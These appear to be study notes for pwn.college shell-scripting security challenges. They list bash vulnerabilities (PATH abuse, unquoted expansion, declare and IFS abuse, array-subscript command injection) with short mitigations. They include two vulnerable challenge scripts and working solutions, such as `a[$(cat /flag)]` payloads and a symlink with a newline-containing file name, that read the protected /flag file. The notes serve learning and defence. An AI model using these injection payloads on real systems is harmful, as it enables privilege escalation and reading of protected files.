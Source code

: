 # Module 1
## Environment Attack
### Vuln:
- abuse `PATH` variable

### Mit: 
- use absolute path in script (`unset PATH` does not solve the problem) 

## Race Condition, Symlink Attack
- Do not use `$0`.

---

# Module 2
## Shell Expansion
### Vuln:
- lacking quotes(examples: `$1`, `[A-Z]`, `$*`)

### Mit:
- use quotes

## Test Injection + Expansion
### Vuln:
- ```sh
  [ $1 -eq "$CHALLENGE" ]

## declare not safe
### Vuln:
- ```sh
  declare -- "$1"="$2"`
- abuse `IFS` variable

### Mit: 
- try sanitizing arguments

## Array Attack, Process Substitution, Abusing -eq
- `a[\$(cat /flag)]`

## Race Condition(again)
- Do not use `$0`.

## Subshell Attack with extra bracket
- `a[\$(</flag))]` (extra ')')

---

# Module 3
## Rhythm of Restriction

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

### Solution
```sh
/challenge/run /bin/bash
$@
```

# Module 4
## Dance of the Disguised
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin
[ -n "$1" ] || exit 1

WORKDIR=$(mktemp -d) || exit 2
cp -rL "$1"/* $WORKDIR/files
cd $WORKDIR/files

# make sure there weren't linking shenanegans
grep -q "{" notflag* && exit 3

ls notflag* | while read FILE
do
	echo "###### FILE: $FILE #######"
	cat "$FILE"
done
```

### Vulnerability
`ls notflag* | while read FILE`

### Solution
- Create file with `\n` in it
```sh
ln -s /flag a
touch $'notflag\na'
```

